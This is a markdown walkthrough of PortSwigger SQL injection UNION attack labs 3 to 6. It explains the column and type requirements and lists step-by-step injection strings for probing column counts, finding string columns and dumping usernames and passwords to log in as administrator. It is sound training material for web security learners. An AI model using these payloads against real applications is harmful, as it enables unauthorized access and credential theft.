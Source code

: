 # SQL injection UNION attacks

For a UNION query to work, two key requirements must be met:

- The individual queries must return the same number of columns.
- The data types in each column must be compatible between the individual queries.

```
SELECT product_name, price FROM products 
UNION SELECT username, age
```

The query above met the requirements:

| string | integer |
| -------| ------- |
| product_name | price | 
| username | age |


This one didn't meet the requirements:

```
SELECT product_name, price FROM products 
UNION SELECT id, username, password
```
## Determining the number of columns required in an SQL injection UNION attack
Method 1:
```
' ORDER BY 1, --
' ORDER BY 1,2 --
... 
' ORDER BY 1,2,3,N -- 
```

Method 2:  

```
' UNION SELECT NULL -- 
' UNION SELECT NULL, NULL -- 
...
' UNION SELECT NULL, NULL, NULL, NULL, NULL -- 
```

Indicator to detect: error message.
## Determining the columns data type in an SQL injection UNION attack

Example of finding a string data type

```
' UNION SELECT 'a', NULL --
```
If it returns an error, that means the data isn't compatible with the column in the original query.

Try second column
```
' UNION SELECT NULL, 'a' --
```
If it is still returns an error, try the third, fourth and so on.

# Labs
## Lab #3: SQL injection UNION attack, determining the number of columns returned by the query
> To solve the lab, determine the number of columns returned by the query by performing an SQL injection UNION attack that returns an additional row containing null values. 

Steps: 

1. Determine the number of columns by index.
```
category=Lifestyle' ORDER BY 1,2 --
category=Lifestyle' ORDER BY 1,2, --
category=Lifestyle' ORDER BY 1,2,3 --
category=Lifestyle' ORDER BY 1,2,3,4 -- # error
```
2. Fill with null.
```
category=Lifestyle' UNION SELECT NULL,NULL,NULL --
```

## Lab #4: SQL injection UNION attack, finding a column containing text
> The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform an SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data. 

Steps:

1. Determine the number of columns 
```
category=Pets' ORDER BY 1,2,3 --
```

2. Determine column data type 
```
category=Pets' UNION SELECT 'inject',null,null --
category=Pets' UNION SELECT null,'inject',null --
category=Pets' UNION SELECT null,'inject','inject' --
```

## Lab #5: SQL injection UNION attack, retrieving data from other tables 
> The database contains a different table called users, with columns called username and password. 
> 
> To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user. 

Suppose that:
- The original query returns two columns, both of which can hold string data.
- The injection point is a quoted string within the WHERE clause.
- The database contains a table called `users` with the columns `username` and `password`.

Steps:
1. Determine the number of column 
```
category=Lifestyles' ORDER BY 1,2 --
```

2. Determine the data type in each column 
```
category=Lifestyles' UNION SELECT 'a', NULL --
category=Lifestyles' UNION SELECT 'a', 'NULL' --
```

3. Retrieve data from the table users.
```
category=Lifestyles' UNION select username, password FROM users --
```
4. Login

## Lab #6: SQL injection UNION attack, retrieving multiple values in a single column
>  The database contains a different table called users, with columns called username and password.
> To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user. 
> Note: Different databases use different syntax
> Cheatsheet to examine the database version and which syntax to use
> https://portswigger.net/web-security/sql-injection/cheat-sheet


Lab steps:
1. Determine the number of column 
```
category=Gifts' ORDER BY 1, 2 --
```

2. Determine the data type in each column 
```
category=Gifts' UNION SELECT NULL, 'a' --
```

3. Examining the database version.
```
category=Gifts' UNION SELECT NULL, version() --
```

4. Retrieve multiple values from single column
```
category=Gifts' UNION SELECT NULL, username || ':' || password FROM users --
```

5. Login